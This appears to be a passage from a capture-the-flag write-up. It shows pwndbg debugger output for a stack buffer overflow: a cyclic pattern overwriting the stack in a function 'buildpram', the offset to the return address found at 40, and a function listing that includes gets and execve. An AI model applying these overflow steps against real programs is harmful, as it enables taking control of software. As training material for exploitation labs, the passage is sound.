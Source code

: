 ```





──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc18 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
01:0008│     0x7fffffffdc20 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
02:0010│     0x7fffffffdc28 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
03:0018│     0x7fffffffdc30 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
04:0020│     0x7fffffffdc38 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
05:0028│     0x7fffffffdc40 ◂— 'kaaaaaaalaaaaaaamaaa'
06:0030│     0x7fffffffdc48 ◂— 'laaaaaaamaaa'
07:0038│     0x7fffffffdc50 ◂— 0x6161616d /* 'maaa' */
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0         0x401328 buildpram+206
   1 0x6161616161616166
   2 0x6161616161616167
   3 0x6161616161616168
   4 0x6161616161616169
   5 0x616161616161616a
   6 0x616161616161616b
   7 0x616161616161616c
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -l 'eaaaaaaa'
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32
pwndbg> 

```
Looks like our rbp register is at an offset of 32 so our rip register is at the offset of 40. maths

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010c0  puts@plt
0x00000000004010d0  setbuf@plt
0x00000000004010e0  printf@plt
0x00000000004010f0  strcspn@plt
0x0000000000401100  fgets@plt
0x0000000000401110  execve@plt
0x0000000000401120  gets@plt
0x0000000000401130  atoi@plt
0x0000000000401140  exit@plt
0x0000000000401150  _start
0x0000000000401180  _dl_relocate_static_pie
0x0000000000401190  deregister_tm_clones
0x00000000004011c0  register_tm_clones
0x0000000000401200  __do_global_dtors_aux
0x0000000000401230  frame_dummy
0x0000000000401236  sub_15210123
0x000000000040125a  buildpram
0x0000000000401329  exitshop
0x000000000040134a  menu
0x0000000000401443  main
```